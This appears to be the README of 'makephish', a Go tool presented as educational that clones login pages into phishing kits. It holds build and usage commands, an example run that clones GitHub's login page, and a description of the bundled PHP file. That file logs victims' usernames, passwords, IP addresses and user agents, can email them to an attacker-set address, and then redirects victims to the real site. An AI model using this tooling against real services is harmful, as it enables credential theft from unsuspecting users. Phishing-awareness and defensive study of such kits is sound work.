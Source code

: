 # makephish

<p align="center">
![makephish](https://github.com/andpalmier/makephish/blob/main/img/makephish.png?raw=true)
<p align="center">
<a href="https://github.com/andpalmier/makephish/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
<a href="https://goreportcard.com/report/github.com/andpalmier/makephish"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
<a href="https://x.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/x/follow/andpalmier?style=social&logo=x" alt="follow on X"></a>
</p>
</p>

`makephish` is a proof of concept tool designed to automate the creation of phishing kits based on a specified URL. It works exclusively with websites featuring simple login pages using HTML `<form>` elements.

The primary objective of this project is educational. It was created to gain familiarity with Go programming. Consequently, the code may lack optimal organization and quality. Additionally, this project aims to illustrate the ease with which a website can be cloned and repurposed to create phishing pages.

## Installation

After cloning the repository, navigate to the project directory and build the executable:

```sh
go build -o makephish cmd/makephish/*.go
```

This will create an executable called `makephish`. You can run the executable with the following flags:

## Usage

- `-url`: URL of login page
- `-ua`: User Agent string, by defefault *"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"*
- `-php`: Path to the PHP file to be used, by default *"phish.php"*
- `-kits`: Path used to store the kits, by default *"./kits"*


### Example

```sh
$ ./makephish -url "https://github.com/login/"

           _           _   _     _
 _____  __| |_ ___ ___| |_|_|___| |_
|     ||. | '_| -_| . |   | |_ -|   |
|_|_|_|___|_|_|___|  _|_|_|_|___|_|_|
                  |_|


Navigating to https://github.com/login using the following User agent string: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Parameters found in the form of the given URL:
 - post action = /session
 - login attribute name = login
 - password attribute name = password
HTML file patched and saved in kits/github.com
PHP file saved in kits/github.com

[*] operation completed! kit created for https://github.com/login and saved in kits/github.com

$ tree kits/github.com
kits/github.com
├── assets
│   ├── behaviors-afe1a202.js
│   ├── chunk-frameworks-81b94425.js
│   ├── chunk-vendor-4d97ead9.js
│   ├── environment-f0adafbf.js
│   ├── frameworks-052cbe13e4b93c9b8358a7178885c1a0.css
│   ├── github-f19f9fd1ee83046f59cf1815d967f4d0.css
│   ├── sessions-45084fea.js
│   ├── settings-c44d66a8.js
│   ├── site-ca634d80a8a0df2203c34902267667dc.css
│   └── unsupported-a85b1284.js
├── index.html
└── phish.php

1 directory, 12 files

$ cd kits/github.com
$ php -S localhost:8000
[Sun Jan 10 12:10:54 2021] PHP 7.4.14 Development Server (http://localhost:8000) started
```

At this point, if you go to `localhost:8000` you should find something like this:

![fakeGH](https://github.com/andpalmier/makephish/blob/main/img/fakeGH.jpg?raw=true)

If you enter some random credentials, you will note that you will be redirected to the original login page provided:

![realGH](https://github.com/andpalmier/makephish/blob/main/img/realGH.jpg?raw=true)

If you didn't modify the `phish.php` file, you can find the credentials you just entered in `localhost:8000/log`:

![logs](https://github.com/andpalmier/makephish/blob/main/img/logs.jpg?raw=true)

### PHP capabilities

A simple PHP file is provided in this repo, but you can easily adjust it to your needs. By default, the file will save username, password, User Agent string, and IP of the victim in a log file. You can disable this option by removing the content of the variable `log`. You can also specify an email address to send these details via email every time a new victim enters the credentials.
```
$exfilemail = ""; // -> enter an email address to send the details via email
$logpath = "log"; // -> make this variable empty to disable logging feature
```

